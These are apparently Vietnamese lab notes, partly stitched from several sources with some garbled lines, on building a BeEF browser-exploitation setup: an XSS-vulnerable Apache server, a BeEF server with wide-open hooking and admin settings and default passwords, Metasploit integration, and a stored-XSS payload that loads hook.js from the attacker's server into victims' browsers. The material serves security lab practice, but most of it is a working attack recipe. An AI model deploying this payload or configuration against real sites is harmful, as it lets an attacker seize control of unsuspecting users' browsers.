 BeEF Framework
Server A: bị ảnh hưởng bởi lỗ hổng Cross-site scripting (XSS) (sử dụng Apache và chạy trên EC2 AWS)
Server B: Sử dụng BeEF Framework đóng vai trò như một máy chủ khai thác (xây dựng trên GCP Cloud).
Client C: Đóng vai trò như một người dùng thông thường, truy cập vào Server A.
Xây dựng môi trường
Cài đặt Apache2
sudo apt-get update;sudo apt-get upgrade
sudo apt-get install -y apache2
<script>alert('Test Script')</script>
Cài đặt BeEF Framework (Server B)
Cài đặt Ruby
sudo apt-get install software-properties-common
sudo apt-get update
sudo apt-add-repository -y ppa:brightbox/ruby-ng
Cài đặt RVM
sudo apt-add-repository -y ppa:rael-gc/rvm
sudo apt-get update;sudo apt-get install rvm
rvm install "ruby-2.5.3"
echo 'source "/etc/profile.d/rvm.sh"' >> ~/.bashrc
 sudo add-apt-repository ppa:jonathonf/gcc-9.0
 sudo apt-get update
 sudo apt-get install gcc-9
 sudo apt-get install git curl wget -y
Download and running BeEF Framework
git clone https://github.com/beefproject/beef
cd beef
./install 
./beef 
 # Credentials to authenticate in BeEF.
    # Used by both the RESTful API and the Admin interface
    credentials:
        user:   "admin"
        passwd: "admin@123"
    # Interface / IP restrictions
    restrictions:
        # subnet of IP addresses that can hook to the framework
        permitted_hooking_subnet: ["0.0.0.0/0", "::/0"]
        # subnet of IP addresses that can connect to the admin UI
        #permitted_ui_subnet: ["127.0.0.1/32", "::1/128"]
        permitted_ui_subnet: ["0.0.0.0/0", "::/0"]
        # slow API calls to 1 every  api_attempt_delay  seconds
        api_attempt_delay: "0.05"
    # HTTP server
    http:
        debug: false #Thin::Logging.debug, very verbose. Prints also full exception stack trace.
        host: "0.0.0.0"
        port: "8080"
3. Proof of concept
Tạo mã độc hại bằng BeEF Framework.
BeEF Framework mặc được trang bị một đoạn mã Javascript vô cùng "xịn xò" mang tên hook.js .Bạn có thể tìm thấy nó tại http://you-ip/hook.js
Bước 2. Nhúng mã hook.js vào Server A
Payload: <script src=”http://your-ip/hook.js” type=”text/javascript”></script>
----------------------------------------
C2:
Cài đặt và cấu hình Browser Exploitation Framework
apt-get install beef-xss
1 ) Edit the main configuration file located at /usr/share/beef-xss/
config.yamlto read:
metasploit:
enable:true2.
2) Edit the file located at /usr/share/beef-xss/extensions/metasploit/
config.yml. You need to edit the lines host, callback_host, and os
'custom', pathto include your IP address and the location for the
Metasploit Framework A correctly edited config.ymlfile is shown in the following screenshot:
3) Start msfconsole, and load the msgrpcmodule, as shown in the following
screenshot. Make sure that you include the password as well:
4 ) Start BeEF using the following commands:
root@kali:~# cd /usr/share/beef-xss/
root@kali:/usr/share/beef-xss/~# ./beef
đi đến http://:3000/ui/panel
default login: User: beef, Password: beef
thay đổi cấu user và passwrod mặc định thì xem trong file config.yaml
-------------------------------------------------------------
C3:
Khởi động BeEF:
Cũng như các công cụ khác được giới thiệu trong series này, nó được tích hợp sẵn trên Kali Linux. Bạn có thể mở từ Menu, Application hay Terminal đều được.
Khởi động BeEF.
BeEF sẽ mở các service cần thiết và biến máy Kali thì một máy chủ web để chạy BeEF, vì nó được xây dựng theo dạng web application mà. Trên chính máy tính Kali của bạn, bạn có thể vào địa chỉ sau để vào bảng điều khiển BeEF Panel:
http://127.0.0.1:3000/ui/panel 
còn đối với một máy tính khác thì vào địa chỉ dạng:
http://<IP>:3000/ui/panel
Một cửa sổ yêu cầu đăng nhập, bạn đăng nhập bằng tên đăng nhập và mật khẩu mặc định là beef. Và bạn cũng có thể thay đổi trong file cấu hình /usr/share/beef-xss/config.yamlto.
Trang web Demo 1: http://<IP>:3000/demos/basic.html
Trang web Demo 2: http://<IP>:3000/demos/butcher/index.html

